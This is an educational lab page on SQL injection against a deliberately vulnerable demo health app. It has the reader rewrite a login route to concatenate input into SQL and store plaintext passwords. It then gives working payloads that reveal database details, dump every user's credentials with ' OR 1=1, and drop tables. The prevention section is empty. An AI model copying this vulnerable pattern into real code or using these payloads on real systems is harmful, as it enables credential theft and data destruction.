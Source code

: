 
# SQL Injection

<Callout type="warning" emoji="🔍">
  **CWE-89**: SQL Injection <br />
</Callout>

## About

## Attack
### Code preparation
To prepare for this attack, we need to slightly modify the implementation of handling the login request, because we have already implemented secure way in section [❕JWT authentication](/cybersecurity/a02/jwt). <br />
Replace the handling of login request in `routes/jwtAuth.ts` with the following code:
```js filename="jwtAuth.ts"  copy showLineNumbers
// LOGIN
router.post("/login", bruteforce.prevent, async (req, res) => {
    const {email, password} = req.body;
    let user = null;

    try {
        user = await pool.query(
            "SELECT email, password from useraccount WHERE email = '" + email + "'"
        );

        if (user?.rows?.length === 0 || user?.length === 0) {
            return res.status(401).json({message: "Invalid email or password.", user: user});
        }

        const validPassword = password === user.rows[0].password;

        if (!validPassword) {
            return res.status(401).json({message: "Invalid email or password.", user: user});
        }

        const token = generateJWT(user.rows[0].password);
        res.json({
            success: true,
            message: "Authentication successful!",
            token: token,
            user: user
        });
    } catch (err) {
        console.error(err.message);
        res.status(500).send({message:"Server error", user: user});
    }
});
```

<Callout emoji="💡">
Compared to previous implementation, we get rid of the `inputValidation` middleware, we handle passwords as plain text and we adjusted the query to be vulnerable to SQL injection.
</Callout>

### Gather internal information
Firstly, we are going to gather some internal information about the database and tables, which will then help us to perform some more serius attacks. <br />
#### **Database type** <br />
* Enter the following inside the email field on HackHealth login screen.
```sql copy
' UNION SELECT usename, NULL FROM pg_user--
``` 
* Leave the password field empty and click on the login button. <br />
* When you open Developer Tools, in the console, when dig deeper into user.rows, you will see the name of the database which is used. <br />
<Image src="/a03/a03_1.png" alt="Burp intruder" width={1000} height={300}/>
#### **Database name** <br />
* Enter the following inside the email field on HackHealth login screen.
```sql copy
' UNION SELECT current_database(), null--
```
* After digging deeper into user.rows, you will see the name of the database: `hackhealthdb` <br />
#### **Names of tables** <br />
In the same way as in the previous step, we can get the name of the database by inserting following code into the email field.
```sql copy
'; SELECT table_name FROM information_schema.tables WHERE table_schema='public'; --
```
* Again, after digging deeper into user[1].rows, you will see the names of the tables. <br />
    * useraccount
    * appointment
    * medicalreport
<Callout emoji="💡">
To sum up, we have gathered the following information: <br />
* Database type: PostgreSQL
* Database name: hackhealthdb
* Names of tables: useraccount, appointment, medicalreport <br />

We are going to use this information in the next step.
</Callout>

### Grant unauthorized access
In this attack, our aim is to get login credentials for all the users in the table `useraccount`. <br />
Into an email field, we are going to insert the following code:
```sql copy
' OR 1=1; --
```
<Callout type="info" emoji="ℹ️">
This input would cause the SQL query to be constructed as follows: <br />
```sql copy
SELECT email, password form useraccount WHERE email = '' OR 1=1; --
```
The semicolon (;) terminates the current statement and the two dashes (--) indicate a comment, effectively ignoring the remaining part of the original query. The injected SQL code OR 1=1 will always evaluate to true, effectively bypassing the authentication check and returning all records from the "useraccount" table.
</Callout>
* We are now able to see all the users with their login credentials. <br />

### Corrupt the tables and database
SQL injection attack is not only about getting the data, but also about corrupting the data. <br />
#### **Drop the table** <br />
* Enter the following inside the email field on HackHealth login screen.
```sql copy
'; DROP TABLE useraccount CASCADE; --
```
* Congratulations, you have just dropped the table `useraccount`! <br />
* Now, when you try to login with the credentials you have obtained in the previous step, you will not be able to log in -> the table of users just do not exist anymore. <br />
<Callout type="info" emoji="ℹ️">
This was made possible only because when creating the tables, fereign key were created with CASCADE option. It means that when the table is dropped, all the tables that depend on it are also dropped. <br />
</Callout>

#### **Drop the database** <br />
	Dropping the database is quite more challenging that dropping individual tables. When you will try to execute command:
    ```sql copy
	'; DROP DATABASE hackhealthdb; --
    ``` 
    you will get an error: `DROP DATABASE cannot run inside a transaction block`.
	This indicates that PostgreSQL does not allow a database to be dropped while there are active connections to it. This is to prevent accidental data loss due to unintended drops. Solution would be to terminate all running connections to the database, but this could not be done through SQL injection. <br />
	Although the attempt about dropping whole database was not successful, we have  already caused considerable damage.

## Prevention


## Verification

## Sources
